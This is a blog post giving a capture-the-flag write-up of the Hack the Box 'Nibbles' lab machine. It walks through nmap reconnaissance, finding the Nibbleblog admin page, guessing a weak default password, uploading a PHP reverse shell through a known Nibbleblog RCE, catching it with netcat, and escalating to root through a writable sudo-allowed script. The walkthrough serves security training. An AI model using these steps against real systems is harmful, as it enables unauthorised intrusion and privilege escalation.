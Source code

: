 ```yaml
---
layout: post
current: post
cover: assets/images/posts/2018/03/nibbles-writeup/nibble_banner.jpg
navigation: True
title: 'Nibbles Writeup'
date: 2018-03-08
tags: ctf
class: post-template
subclass: 'post'
author: christoffer
---
```


> "My writeup of the Hack the box Nibbles box... Nibble nibble!"

Connecting to Hack the Box[^1] using the supplied VPN, my Nibbles box have the IP: 10.10.10.75
As per usual, lets start with Recon and NMAP the target IP
```
root@kali:~/Nibbles$ nmap -p- --version-all -sV -sS 10.10.10.75
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-09 07:44 CET
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```
Seeing port 80 open, lets browse to that and look at the source code, as the base directory doesn't show anything revealing.
```
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
Seeing that we have a new directory to explore, lets go to `/nibbleblog/`.
 
![nibblesblog-root](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-root.png)
 
So that points to the Content Management System (CMS) called Nibbleblog, which is opensource and free to download the sourcecode, which means we can take a look at it.

A bit of googling points me to the github https://github.com/dignajar/nibbleblog
 
Where the basefile `admin.php` looks interesting, and sure enough it does exist on our target.
 
![nibblesblog-admin](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-admin.png)
 
The next interesting file from the github looks to be "install.php", on our target blog it is obviously already installed, nontheless it might be worth checking out!
 
![nibblesblog-install](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-install.png)

Lets follow the update link to the update page! 

![nibblesblog-update](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-update.png) 

So this further reveals two files where one is quite interesting, as config files usually contains usernames even possibly passwords, and other essential config parameters!
So lets browse to `/nibbleblog/content/private/config.xml`

```
<config>
[...snip...]
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
[...snip...]
</config>
```

So this time the config file does not reveal any passwords, although we're not emptyhanded as we do get a valid username "admin".
After some further enumeration I could not find a hint towards a password or any other vulnerability to use. So I resulted in trying THC-Hydra[^2] and a small passwordlist in an attempt to run a dictionary against the login page!
Which only got me on their blacklist and blocked me a couple minutes from making further login attempts.
 
![nibblesblog-login-blacklist](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-login-blacklist.png)
 
Then after some further checking of the source code, i recalled it supposed to be a fairly simple box, so back to some default passwords.
Bingo, user: Admin, Password: nibbles so a weak password indeed.
Doing a grep for the password "nibbles" in the standard "rockyou.txt" that is included in Kali linux.

```
root@kali:~/Wordlists$ grep 'nibbles' rockyou.txt
nibbles
nibbles1
[...snip...]
```
We can see that doing the hydra would indeed work... eventually, you'd just have to do some timeouts between attempts.
Either way, we have the password and is logged in to the CMS admin panel!
 
![nibblesblog-logged-in](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-logged-in.png)
 
Next up would be to try and get a shell on the system somehow, so back to google!
It eventually pointed me to another security researchers blog

[CureSec Nibbleblog 4.0.3 RCE](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)[^3]

The PoC Exploit work in 4 steps:
```
1. Obtain Admin credentials
2. Activate My image plugin
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```

So since we are already logged in, we can go to step two and activate the "My Image Plugin" under Plugins in the CMS Admin Panel.
Then lets create and upload a php reverse shell.
My favourite php-reverse-shell is included in kali, that pentestmonkey created.
Copy that to the working directory by issuing.

```
root@kali:~/Nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

Then edit the $ip and $port variable in the php script, in this example i use port 4000. Once thats done, we can upload it to the CMS and start a netcat listener on our chosen port with (nc -lvvp 4000)
In this example i used curl to trigger the RCE since the `image.php` is in a public folder.

```
root@kali:~/Nibbles$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

That should kick of a basic shell created by the PHP script to the Netcat listener.
Although the shell we recieve is a limited one, so lets enumerate which perl and python libraries are present to escape the limited shell.

```
root@kali:~/Nibbles$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from nibbles.htb [10.10.10.75] 49562
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:55:01 up 4 days,  6:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which perl
/usr/bin/perl
$ which python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash');"  
nibbler@Nibbles:/$ ls /home/nibbler
ls /home/nibbler
personal  personal.zip  user.txt
nibbler@Nibbles:/$
```

Since i am a Python guy, that's a quite an easy choice.
Now that we have the `user.txt` flag, lets get root!
One easy command to run is `sudo -l`, which will report if the current user is in the `/etc/sudoers` file, as well list what commands the current user is allowed to run.

```
nibbler@Nibbles:/$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/$
```

Easy enough, at a quick glance in enumeration we can see that user nibbler is allowed to run `/home/nibbler/personal/stuff/monitor.sh` as root without a password!
At this point getting the root flag should be fairly simple!

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/cat /root/root.txt" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745[...snip...]8ef88c
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

Done.

[^1]: [ www.hackthebox.eu]( www.hackthebox.eu)
[^2]: https://tools.kali.org/password-attacks/hydra
[^3]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html
